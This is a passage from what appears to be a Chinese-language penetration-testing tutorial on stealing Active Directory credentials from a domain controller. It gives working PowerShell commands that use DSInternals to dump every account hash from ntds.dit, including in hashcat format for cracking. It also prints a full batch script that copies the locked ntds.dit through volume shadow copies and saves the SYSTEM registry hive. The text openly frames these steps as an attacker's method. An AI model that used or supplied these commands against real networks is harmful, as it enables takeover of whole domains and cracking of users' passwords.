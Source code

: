 DSInternals 下载地址：[https://github.com/MichaelGrafnetter/DSInternals/releases](https://github.com/MichaelGrafnetter/DSInternals/releases)

安装 DSInternals

```
Install-Module DSInternals -Force
```

直接导出 hash，并保存在 output_hash.txt 文件里

```
$key = Get-Bootkey -SystemHivePath 'C:\system'
Get-ADDBAccount -All -DBPath 'C:\ntds.dit' -Bootkey $key | Out-File output_hash.txt
```

或者导出 hashcat 支持的 hash，并保存在 output_hashcat.txt 文件里

```
$key = Get-Bootkey -SystemHivePath 'C:\system.hive'
Get-ADDBAccount -All -DBPath 'C:\ntds.dit' -BootKey $key | Format-Custom -View HashcatNT | Out-File output_hashcat.txt
```

### vshaow 和 QuarksPwDump

在正常的域环境中，ntds.dit 文件里包含大量的信息，体积较大，不方便保存到本地。

如果域控制器上没有安装杀毒软件，攻击者就能直接进入域控制器，导出 ntds.dit 并获得域账号和域散列值，而不需要将 ntds.dit 保存到本地。

QuarksPwDump 可以快速、安全、全面地读取全部域账号和域散列值。

QuarksPwDump 下载地址：[https://github.com/tuthimi/quarkspwdump/tree/master/Release](https://github.com/tuthimi/quarkspwdump/tree/master/Release)

ShadowCopy.bat 使用微软的卷影拷贝技术，能够复制被锁定的文件及被其他程序打开的文件，代码如下

```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
reg save hklm\system system.hive
```
